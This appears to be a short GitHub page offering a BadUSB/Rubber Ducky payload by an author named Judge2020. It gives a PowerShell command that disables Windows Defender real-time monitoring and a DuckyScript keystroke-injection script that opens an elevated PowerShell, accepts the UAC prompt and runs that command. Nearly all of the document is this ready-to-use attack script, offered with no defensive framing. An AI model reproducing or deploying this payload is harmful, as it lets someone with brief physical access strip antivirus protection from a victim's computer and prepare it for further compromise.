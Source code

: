 Windows defender can be disabled with PS using the following command

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

An example script: 

```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```